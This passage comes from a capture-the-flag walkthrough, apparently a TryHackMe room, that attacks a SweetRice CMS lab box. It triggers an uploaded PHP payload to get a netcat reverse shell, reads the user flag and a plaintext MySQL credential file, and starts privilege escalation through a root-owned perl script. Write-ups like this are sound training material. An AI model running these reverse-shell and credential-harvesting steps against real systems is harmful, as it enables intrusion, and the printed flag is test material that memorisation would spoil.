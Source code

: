Since we uploaded this payload, we can now navigate to where these are uploaded: `http://localhost/sweetrice/inc/ads/hacked.php` as stated by the exploit.

We change it to:
```URL
http://10.10.223.177/content/inc/ads/hacked.php
```

But we first start a netcat listener on port 1234 to listen for the inbound connection.

```shell
nc -nlvp 1234
```

And after visiting the payload URL, we get the connection in netcat.

> The first flag can be found by going to the `itguy` home directory.
```shell
cd /Home
cd itguy
ls 

Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
cat user.txt

THM{63e5bce9271952aad1113b6f1ac28a07}
```

###### What is the user flag?: `THM{63e5bce9271952aad1113b6f1ac28a07}` .

To find the root flag, we need to become root. We see that the home direcotry for `itguy` has a `mysql_login.txt` file.

```shell
cat mysql_login.txt

rice:randompass
```

We also have the `backup.pl` perl file.

``` bash
$ cat backup.pl                    
#!/usr/bin/perl                                            
system("sh", "/etc/copy.sh");

$ ls -lah backup.pl                                        
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl 
```
